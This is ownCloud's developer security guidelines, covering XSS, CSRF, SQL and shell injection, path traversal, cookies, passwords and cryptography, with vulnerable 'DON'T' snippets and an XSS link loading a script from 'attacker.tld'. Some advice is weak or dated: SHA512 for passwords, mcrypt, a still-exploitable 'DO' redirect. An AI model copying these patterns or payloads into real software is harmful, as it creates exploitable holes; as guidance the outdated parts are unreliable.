 Security Guidelines
===================

.. sectionauthor:: Bernhard Posselt <dev@bernhard-posselt.com>, Lukas Reschke <lukas@statuscode.ch>, Matthew Setter <matthew@matthewsetter.com>
   
Introduction
------------

These security guidelines are for core and application developers. 
They give highlights some of the most common security problems and how to prevent them.
They also give you some best practices and tips about security for ownCloud development.
Please review your application, if it contains any of the following security holes.

.. note:: **Program defensively**: for instance always check for CSRF or escape strings, even if you do not need it. This prevents future problems where you might miss a change that leads to a security hole.

.. note:: All application Framework security features depend on the call of the controller through :php:meth:`OCA\\AppFramework\\App::main`. If the controller method is executed directly, no security checks are being performed!

General
-------

Source Code Analysis
~~~~~~~~~~~~~~~~~~~~

Before releasing an application and after security-related changes, the complete source code **must** be scanned; we currently with `RIPS`_.
Affected Software:

- Core
- All apps in core
- All apps in the marketplace

Architecture
------------

Security Related Comments in Source Code
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Security-related comments in source code are forbidden. 
Source code means PHP code and especially JavaScript code.
Security-related comments are:

- Usernames and passwords
- Descriptions of processes and algorithms

.. TODO I've chased up Peter about the use of the minifier. I didn’t think it encrypted the information.

Before deploying, use a minifier for JavaScript and CSS files.

Switch Between HTTP and HTTPS
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

ownCloud should only be rendered with HTTPS. 
A switch between HTTP and HTTPS in an application should be avoided, which avoids creating `mixed-content pages`_ and the problems which that can cause. 
Don't use HTTP for the *stylesheet*, *image*, and *JavaScript* files, if the application itself is running under HTTPS.

Security Related Actions
~~~~~~~~~~~~~~~~~~~~~~~~

All security-related actions must take place on the server, which includes *validation*, *authentication*, and *authorization*. 
Additional implementations on the client side are only useful for providing a better user experience. 
Don't hard-code passwords or encryption keys in the source code. 
They have to be in config files and should be user-generated.

Browser plugins
~~~~~~~~~~~~~~~

Don't use browser plugins such as:

- ActiveX Controls
- Java Applets
- Flash

Least Privilege Principle
~~~~~~~~~~~~~~~~~~~~~~~~~

Every application should only have the rights that it needs. 
An application should not access core database tables. 
If it needs data from these tables, it should call an API to retrieve it.

Error Messages and Error Pages
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Don't show sensitive information on error pages or in error messages. 
Sensitive information includes:

- Username/password
- E-Mail addresses
- Version numbers
- Paths

Don't show information in error messages or on error pages, which is too detailed.

**Example:**

If a user can't login, don't show an error like: "*Your password is wrong*". 
Instead, show a message such as: "*There was an error with your credentials*". 
If you print "*Your password is wrong*" then an attacker knows the username was a valid one in the ownCloud installation.
Additionally, consider implementing a `CAPTCHA`_ to prevent brute force attacks, after five failed login attempts.

Session ID Transport
~~~~~~~~~~~~~~~~~~~~

Don't use a session id as a GET Parameter, because these persist in browser history.
Use cookies instead.

New Session ID After a Successful Login
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

After a successful login, the session id should be regenerated to prevent `session fixation attacks`_. 
If you have to switch between HTTPS and HTTP, you should change the session id, because an attacker could have already read the session id.

Access Protection With Authorization Check
------------------------------------------

Every request to the server must perform a check if the user has the authorization to perform this request. 
A client-side check is not recommended. 
However, it can improve the user's experience.

Best Practices
--------------

Use of the eval Function 
~~~~~~~~~~~~~~~~~~~~~~~~~

Don't use either PHP's or JavaScript's ``eval`` functions — especially not with user-supplied data.

Input Validation
~~~~~~~~~~~~~~~~

All user-supplied data, ``$_SERVER``, and ``$_COOKIE`` variables **must** be validated. 
All these contain data which can be changed (or forged) by the client.
You should also sanitize any supplied script code. 

**Example:**

If you expect to receive an integer id as a GET parameter, then always explicitly cast it into an integer using the cast operator ``(int)``, because all ``$_REQUEST`` parameter are strings. 
However, if you expect text as a parameter, use `PHP's htmlspecialchars function`_ with ``ENT_QUOTES`` or ``strip_tags`` to prevent `Cross-site Scripting (XSS) attacks`_.

.. code-block:: php

  <?php

  $neu = htmlspecialchars("<a href='test'>Test</a>", ENT_QUOTES);
  echo $neu; // &lt;a href=&#039;test&#039;&gt;Test&lt;/a&gt;

.. code-block:: php 

  <?php

  $text = '<p>Test-Absatz.</p><!-- Kommentar --> <a href="#fragment">Anderer Text</a>';
  echo strip_tags($text);
  echo "\n";

**Output:**

.. code-block:: console 

  Test-Absatz. Anderer Text
  <p>Test-Absatz.</p> <a href="#fragment">Anderer Text</a>

Please do the validation **before** all other actions.

Path Traversal and Path Manipulation
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

If you need to access the file system, don't use user-supplied data to build path names. 
You have to check the input parameters for null bytes (``\0``), the links to the current and parent directory on UNIX/Linux filesystems (``.`` and ``..``), and empty strings.

Prevent Command Injection
~~~~~~~~~~~~~~~~~~~~~~~~~

Use `PHP's escapeshellarg() function`_, if your input parameters are arguments for `exec()`_, `popen()`_, `system()`_, or the backtick (`````) operator.

.. code-block:: php 

  <?php

  system('ls '.escapeshellarg($dir));

If you don't know how many arguments your application receives, then use the PHP function `escapeshellcmd()`_ to escape the whole command.

.. code-block:: php

  <?php
  $command = './configure '.$_POST['configure_options'];

  $escaped_command = escapeshellcmd($command);

  system($escaped_command);

Output Escaping
~~~~~~~~~~~~~~~

All input parameters printed out in the response should be escaped. 
Do not use ``print_unescaped()`` in ownCloud templates, use ``p()`` instead. 
If you have to output text in JavaScript use ``$jQuery.text()``. 
If you want to output HTML, use ``$jQuery.html()``. 
A better option is to use a tool like `HTMLPurifier`_.

High Sensitive Information in GET Request
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

You should not use sensitive information, like passwords or usernames, in unprotected requests. 
All request with sensitive information should be protected with HTTPS.

Prevent HTTP-Header-Injection (HTTP Response Splitting)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

To prevent `HTTP Response Splitting`_, you have to check all request variables for ``%0d`` (CR) and ``%0a`` (LF), if they are parameters provided to `PHP's header() function`_.
This is because an attacker can deface your website, such as redirect the request to a phishing site or executing an XSS attack, by performing header manipulation.

Changes on the Document Object Model (DOM)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

If your code changes the DOM, then don't use unvalidated user input.

.. warning:: You should never trust user input.

Prevent SQL-Injection
~~~~~~~~~~~~~~~~~~~~~

If you have to pass parameters to a SQL query, use the escape functions for your database system to prevent `SQL Injection attacks`_. 
In ownCloud you must use the `QueryBuilder`_.

Data Storage
------------

Persistent Storages on Client Side
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Don't save highly sensitive data in persistent storage on the client side. 
Persistent data storage includes:

- `Persistent HTTP cookies`_
- `Flash cookies`_
- `HTML5 Web-Storage`_
- `HTML5 Index DB`_

Release all Resources in Case of an Error
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

All resources, such as database and file locks, must be released when errors occur. 
Doing so prevents the server from being subject to `denial-of-service (DOS) attacks`_.

Cryptography
------------

Symmetric Encryption Methods
~~~~~~~~~~~~~~~~~~~~~~~~~~~~

If you use symmetric encryption methods in your code, use the following encryption types:

- AES with a key length of 256
- SERPENT with a key length of 256

For block ciphers use the following modes:

- CFB (cipher feedback mode)
- CBC (cipher block chaining mode)

CFB mode requires an initialization vector (IV) to the respective cipher function. 
Whereas in CBC mode, supplying one is optional.
The IV must be unique and must be the same when encrypting and decrypting. 
Use `the PHP crypt library`_ with `libmcrypt`_ greater 2.4.x.

Asymmetric Encryption Methods
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

If you use asymmetric encryption methods, use the following encryption type:

- RSA with key length 4096

Hash Algorithms
~~~~~~~~~~~~~~~

If you need a hash function in PHP, use the SHA512 hash algorithm. 
You can use `PHP's crypt() function`_, but only with a strong salt.
Don't use *MD5*, *SHA1* or *SHA256*. 
These types of algorithms are designed to be very fast and efficient. 
However, with modern techniques and computer equipment, it has become trivial to brute force the output of these algorithms to discover the original input.

Cookies
-------

Secure Flag
~~~~~~~~~~~

If you use HTTPS to protect requests, then you have to use `the secure flag`_ for your cookies.

HTTP Only
~~~~~~~~~

If you don't have to access your cookie content in JavaScript, the set `the HttpOnly flag`_ on every cookie.

Path
~~~~

If possible, set a path for a cookie. 
Doing so ensures that the cookie is only valid for requests using the provided path.

Passwords
---------

The following chapter is not only for developers but also for admins and end-users.

Charset of Passwords 
~~~~~~~~~~~~~~~~~~~~~

The charset of a password should contain *characters*, *numbers*, and *special characters*.
Characters should be both upper and lowercase.

Password Length
~~~~~~~~~~~~~~~

All password should have a minimum length of eight characters and contain numbers and special characters. 
These requirements must be validated by the application.

Password Quality
~~~~~~~~~~~~~~~~

If the user can choose his password for the first time, the quality of a password should be displayed graphically.

Password Input
~~~~~~~~~~~~~~

If a user can input his password into an input field, the input field **must** be of type "password". 
If an error occurs, don't fill the password field automatically when displaying an error message.

Save Passwords
~~~~~~~~~~~~~~

Don't save passwords in clear text. 
Use a `salted hash`_

Default and Initial Passwords
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Both default and initial passwords should be avoided. 
If you have to use either, you have to make sure that the password is changed by the user on the first call to the application.

User Interface
--------------

Input Auto-completion
~~~~~~~~~~~~~~~~~~~~~

Auto-complete must be disabled for all input fields which receive sensitive data.
Sensitive data includes:

- Username
- Password
- Credit card information
- Banking information

For text input fields use ``autocomplete="off"`` or use a dynamically generated field name.

For password fields use: 

.. code-block:: 

  <input name="pass" type="password" autocomplete="new-password" />

Attack Vectors
--------------

Auth bypass / Privilege escalations
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Auth bypass/privilege escalations happen when users can perform unauthorized actions.
ownCloud offers three simple checks:

* **OCP\\JSON::checkLoggedIn()**: Checks if the logged in user is logged in
* **OCP\\JSON::checkAdminUser()**: Checks if the logged in user has admin privileges
* **OCP\\JSON::checkSubAdminUser()**: Checks if the logged in user has group admin privileges

These checks are already automatically performed, by the application framework, for each request. 
If they are not required, they have to be *explicitly* turned off by using annotations above your controller method. 
See :doc:`../app/controllers`.

Additionally, always check if the user has the right to perform that action.

Clickjacking
~~~~~~~~~~~~

`Clickjacking <http://en.wikipedia.org/wiki/Clickjacking>`_ tricks the user to click into an invisible iframe to perform an arbitrary action (e.g., deleting a user account).

To prevent such attacks ownCloud sends the `X-Frame-Options` header to all template responses. 
Don't remove this header unless you need to!

This functionality is built into ownCloud when `ownCloud templates <https://doc.owncloud.org/server/latest/developer_manual/app/templates.html>`_ or `Twig Templates`_ are used.

Code executions / File inclusions
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Code execution means that an attacker can include an arbitrary PHP file. 
This PHP file runs with all the privileges granted to the normal application and can do an enormous amount of damage.
Code executions and file inclusions can be easily prevented by never allowing user-input to run through the following functions:

* **include()**
* **require()**
* **require_once()**
* **eval()**
* **fopen()**

.. note:: 
   **Never** allow the user to upload files into a folder which is reachable from the URL!

**DON'T**

.. code-block:: php

  <?php
  require("/includes/" . $_GET['file']);

.. note:: 
   If you have to pass user input to a potentially dangerous function, double check to be sure that there is no other option available. 
   If there is no other option, sanitize every user parameter and ask people to audit your sanitize functions.

Cross site request forgery
~~~~~~~~~~~~~~~~~~~~~~~~~~

Using `CSRF <http://en.wikipedia.org/wiki/Cross-site_request_forgery>`_ one can trick a user into executing a request that he did not want to make. 
Thus every POST and GET request needs to be protected against it. 
The only places where no CSRF checks are needed are in the main template, which is rendering the application, or in externally callable interfaces.

.. note:: Submitting a form is also a POST/GET request!

To prevent CSRF in an app, be sure to call the following method at the top of all your files:

.. code-block:: php

  <?php
  OCP\JSON::callCheck();

If you are using the application Framework, every controller method is automatically checked for CSRF unless you explicitly exclude it by setting the @NoCSRFRequired annotation before the controller method, see :doc:`../app/controllers`

Cross site scripting
~~~~~~~~~~~~~~~~~~~~

`Cross-site scripting <http://en.wikipedia.org/wiki/Cross-site_scripting>`_ happens when user input is passed directly to templates. A potential attacker might be able to inject HTML or JavaScript into the page to steal the user's session, log keyboard entries, or perform DDOS attacks on other websites and other malicious actions.

Despite the fact that ownCloud uses Content-Security-Policy to prevent the execution of inline JavaScript code developers are still required to prevent XSS. 
CSP is another layer of defense that is not implemented in all web browsers.

To prevent XSS vulnerabilities in your application, you have to sanitize both the templates *and* all JavaScript scripts which perform DOM manipulation.

Templates
~~~~~~~~~

Let's assume you use the following example in your application:

.. code-block:: php

  <?php
  echo $_GET['username'];

An attacker might now easily send the user a link to ``app.php?username=<script src="attacker.tld"></script>``, to overtake the user account. 
The same problem occurs when outputting content from the database, or any other location that is writable by users.
Another attack vector that is often overlooked is XSS vulnerabilities in ``href`` attributes. HTML allows to execute JavaScript in ``href`` attributes like this::

    <a href="javascript:alert('xss')">

To prevent XSS in your app, never use ``echo``, ``print()`` or ``<\%=``, use ``p()`` instead.
Doing so sanitizes input. 
Also **validate URLs to start with the expected protocol** (starts with "http" for instance)!

.. note:: 
   Should you ever require to print something unescaped, double check if it is necessary. 
   If there is no other way (e.g., when including of subtemplates) use `print_unescaped`  with care.

JavaScript
~~~~~~~~~~

Avoid manipulating HTML directly via JavaScript. 
Doing so often leads to XSS vulnerabilities since people often forget to sanitize variables.
For example:

.. code-block:: js

  var html = '<li>' + username + '</li>"';

If you want to use JavaScript for something like this use `escapeHTML` to sanitize the variables:

.. code-block:: js

  var html = '<li>' + escapeHTML(username) + '</li>';

An even better way to make your application safer is to use the jQuery built-in function **$.text()**, instead of **$.html()**.

**DON'T**

.. code-block:: js

  messageTd.html(username);

**DO**

.. code-block:: js

  messageTd.text(username);

It may also be wise to choose a proper JavaScript framework, like AngularJS, which automatically handles JavaScript escaping for you.

Directory Traversal
~~~~~~~~~~~~~~~~~~~

Very often, developers forget about sanitizing the file path (such as removing all ``\\`` and ``/``). 
Doing so allows an attacker to traverse through directories on the server and opens several potential attack vendors, which include *privilege escalations*, *code executions*, and *file disclosures*.

**DON'T**

.. code-block:: php

  <?php
  $username = OC_User::getUser();
  fopen("/data/" . $username . "/" . $_GET['file'] . ".txt");

**DO**

.. code-block:: php

  <?php
  $username = OC_User::getUser();
  $file = str_replace(array('/', '\\'), '',  $_GET['file']);
  fopen("/data/" . $username . "/" . $file . ".txt");

.. note:: PHP also interprets the backslash (\\) in paths, don't forget to replace it too!

Shell Injection
~~~~~~~~~~~~~~~

`Shell Injection <http://en.wikipedia.org/wiki/Code_injection#Shell_injection>`_ occurs if PHP code executes shell commands (e.g., running a latex compiler). 
Before doing this, check if there is a PHP library that already provides the needed functionality. 
If you really need to execute a command be aware that you have to escape every user parameter passed to one of these functions:

- **exec()**
- **shell_exec()**
- **passthru()**
- **proc_open()**
- **system()**
- **popen()**

.. note:: Please require/request additional programmers to audit your escape function.

Without escaping the user input, this allows an attacker to execute arbitrary shell commands on your server.
PHP offers the following functions to escape user input:

- **escapeshellarg()**: Escape a string to be used as a shell argument
- **escapeshellcmd()**: Escape shell metacharacters

**DON'T**

.. code-block:: php

  <?php
  system('ls '.$_GET['dir']);

**DO**

.. code-block:: php

  <?php
  system('ls '.escapeshellarg($_GET['dir']));

Sensitive data exposure
~~~~~~~~~~~~~~~~~~~~~~~

Always store user data or configuration files in safe locations, e.g., **owncloud/data/** and not in the web root, where they are accessible by anyone using a web browser.

SQL Injection
~~~~~~~~~~~~~

`SQL Injection <http://en.wikipedia.org/wiki/SQL_injection>`_ occurs when SQL query strings are concatenated with variables.
To prevent this, always use prepared queries:

.. code-block:: php

  <?php
  $sql = 'SELECT * FROM `users` WHERE `id` = ?';
  $query = \OCP\DB::prepare($sql);
  $params = array(1);
  $result = $query->execute($params);

If the application Framework is used, write SQL queries like this in the class that extends the Mapper:

.. code-block:: php

  <?php
  // inside a child mapper class
  $sql = 'SELECT * FROM `users` WHERE `id` = ?';
  $params = array(1);
  $result = $this->execute($sql, $params);

Unvalidated redirects
~~~~~~~~~~~~~~~~~~~~~

This is more of an annoyance than a critical security vulnerability since it may be used for social engineering or phishing.
Before redirecting, always validate the URL if the requested URL is on the same domain or is an allowed resource.

**DON'T**

.. code-block:: php

  <?php
  header('Location:'. $_GET['redirectURL']);

**DO**

.. code-block:: php

  <?php
  header('Location: https://example.com'. $_GET['redirectURL']);

Getting Help
------------

If you need help to ensure that a function is secure, please ask on our `mailing list <https://mailman.owncloud.org/mailman/listinfo/devel>`_ or in IRC channel **#owncloud-dev** on **irc.freenode.net**.

.. Links
   
.. _Twig Templates: https://twig.symfony.com/
.. _RIPS: http://rips-scanner.sourceforge.net/
.. _CAPTCHA: https://en.wikipedia.org/wiki/CAPTCHA
.. _the HttpOnly flag: https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies
.. _the eval function: http://php.net/manual/en/function.eval.php 
.. _PHP's htmlspecialchars function: http://php.net/manual/en/function.htmlspecialchars.php
.. _PHP's escapeshellarg() function: http://php.net/manual/en/function.escapeshellarg.php
.. _exec(): http://php.net/manual/en/function.exec.php
.. _popen(): http://php.net/manual/en/function.popen.php
.. _system(): http://php.net/manual/en/function.system.php
.. _escapeshellcmd(): http://php.net/manual/en/function.escapeshellcmd.php
.. _HTMLPurifier: http://htmlpurifier.org
.. _PHP's header() function: http://php.net/manual/en/function.header.php
.. _Persistent HTTP cookies: http://www.allaboutcookies.org/cookies/cookies-the-same.html
.. _Flash cookies: http://www.popularmechanics.com/technology/security/how-to/a6134/what-are-flash-cookies-and-how-can-you-stop-them/
.. _HTML5 Web-Storage: https://developer.mozilla.org/en-US/docs/Web/API/Web_Storage_API
.. _HTML5 Index DB: https://developer.mozilla.org/en-US/docs/Web/API/IndexedDB_API
.. _libmcrypt: http://mcrypt.sourceforge.net
.. _the PHP crypt library: http://php.net/manual/en/function.crypt.php
.. _PHP's crypt() function: http://php.net/manual/en/function.crypt.php
.. _denial-of-service (DOS) attacks: https://en.wikipedia.org/wiki/Denial-of-service_attack
.. _salted hash: https://crackstation.net/hashing-security.htm
.. _QueryBuilder: https://github.com/owncloud/core/blob/master/lib/private/DB/QueryBuilder/QueryBuilder.php
.. _the secure flag: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Set-Cookie
.. _mixed-content pages: https://developer.mozilla.org/en-US/docs/Web/Security/Mixed_content 
.. _session fixation attacks: https://www.owasp.org/index.php/Session_fixation 
.. _Cross-site Scripting (XSS) attacks: https://www.owasp.org/index.php/Cross-site_Scripting_(XSS) 
.. _HTTP Response Splitting: https://www.owasp.org/index.php/HTTP_Response_Splitting
.. _SQL Injection attacks: https://www.owasp.org/index.php/SQL_Injection
